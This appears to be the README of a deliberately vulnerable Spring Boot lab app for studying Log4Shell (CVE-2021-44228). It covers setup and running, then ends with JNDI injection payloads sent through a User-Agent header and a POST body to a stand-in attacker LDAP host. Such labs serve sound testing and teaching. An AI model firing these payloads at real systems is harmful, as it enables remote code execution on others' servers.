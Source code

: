 # ☕ ITF-log4shell-vulnapp

log4j (CVE-2021-44228) Spring-boot web application with vulnerabilities

## Installation

```bash
# requierd JDK version 8
$ git clone https://github.com/Auddn/ITF-log4shell-vulnapp.git
$ cd ITF-log4shell-vulnapp
$ ./gradlew build
$ ./gradlew bootJar
```

If `JDK 8` is not installed in your system, follow:

```bash
$ apt-get update
$ apt-get install openjdk-8-jdk
$ vi /etc/profile
```

and add `$JAVA_HOME` in vim

```bash
$JAVA_HOME="/usr/lib/jvm/java-8-openjdk-amd64"
```

apply and check the `JAVA_HOME` environmental variable.

```bash
$ source /etc/environment
$ echo $JAVA_HOME
/usr/lib/jvm/java-8-openjdk-amd64
```

## Usage

This web application operates based on the Spring-Boot framework and has Tomcat built-in.

If you have successfully completed the installation process, run the application through the following process:

```bash
$ cd ITF-log4shell-vulnapp/build/libs
$ java -jar log4shellVulnapp-0.0.1-SNAPSHOT.jar
```

If you want to change a port of application, you can change a port by edit application.properties

```bash
$ cd ITF-log4shell-vulnapp/src/main/resources
$ vi application.properties
```

and add or edit port setting (default port number is 8080):

```bash
server.port = 8080
```

In order to test for log4j vulnerabilities in this application, the payload must be inserted as follows:

```bash
/GET
User-Agent: ${jndi:ldap://attack.er/path}

/POST
(body part)
payload=${jndi:ldap://attack.er/path}
```
